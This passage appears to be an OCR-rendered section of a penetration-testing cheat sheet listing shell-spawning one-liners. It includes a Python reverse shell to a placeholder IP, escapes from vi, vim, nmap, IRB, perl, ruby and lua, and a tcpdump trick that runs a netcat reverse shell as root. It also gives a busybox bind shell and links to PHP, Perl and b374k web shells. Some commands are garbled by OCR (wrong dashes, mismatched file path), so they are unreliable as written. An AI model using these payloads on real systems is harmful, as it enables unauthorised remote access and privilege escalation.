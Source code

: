      -   python -c 'import pty; pty.spawn("/bin/sh")'

     -   python -c 'import
         socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);
         s.connect(("$ip",1234));os.dup2(s.fileno(),0);
         os.dup2(s.fileno(),1);
         os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

     -   echo os.system('/bin/bash')

     -   /bin/sh -i

     -   perl —e 'exec "/bin/sh";'

     -   perl: exec "/bin/sh";

     -   ruby: exec "/bin/sh"

     -   lua: os.execute('/bin/sh')

     -   (From within IRB)  
         exec "/bin/sh"

     -   (From within vi)  
         :!bash

     -   From within vim  
         Breaking out of vim is done by ':!bash':

     -   (From within vi)  
         :set shell=/bin/bash:shell

     -   (From within nmap)  
         !sh

     -   (From within tcpdump)  
         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ &gt;
         /tmp/.test  
         chmod +x /tmp/.test  
         sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst
         –Z root

     -   from busybox  
         /bin/busybox telnetd -|/bin/sh -p9999

-   Pen test monkey PHP reverse shell  
    [*http://pentestmonkey.net/tools/web-shells/php-reverse-shel*](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

-   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [*http://pentestmonkey.net/tools/web-shells/php-findsock-shell*](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

-   Perl Reverse Shell  
    [*http://pentestmonkey.net/tools/web-shells/perl-reverse-shell*](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

-   PHP powered web browser Shell b374k with file upload etc.  
    [*https://github.com/b374k/b374k*](https://github.com/b374k/b374k)

